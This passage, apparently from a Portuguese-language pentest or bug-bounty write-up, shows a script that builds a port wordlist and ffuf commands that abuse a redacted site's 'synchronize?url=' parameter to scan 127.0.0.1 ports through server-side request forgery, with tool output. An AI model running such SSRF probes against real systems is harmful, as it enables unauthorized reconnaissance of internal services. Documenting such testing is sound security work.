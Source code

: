 ```sh
#!/bin/sh

for PORT in $(seq 0 65535)
do
    echo "$PORT" >> wordlist_ports.txt
done
```

E fiz a enumeração:

```
$ ffuf -u https://[redacted]/synchronize?url=http://127.0.0.1:FUZZ -w ./wordlist_ports.txt                        


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://[redacted]/synchronize?url=http://127.0.0.1:FUZZ
 :: Wordlist         : FUZZ: ./wordlist_ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

39                      [Status: 200, Size: 26, Words: 3, Lines: 4, Duration: 16ms]
18                      [Status: 200, Size: 26, Words: 3, Lines: 4, Duration: 17ms]
8                       [Status: 200, Size: 26, Words: 3, Lines: 4, Duration: 16ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Precisamos filtrar os resultados aqui também, dessa vez, o tamanho das respostas
"erradas" é 26:

```
$ ffuf -u https://[redacted]/synchronize?url=http://127.0.0.1:FUZZ -w ./wordlist_ports.txt -fs 26


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://[redacted]/synchronize?url=http://127.0.0.1:FUZZ
 :: Wordlist         : FUZZ: ./wordlist_ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
```

[nmap]: https://nmap.org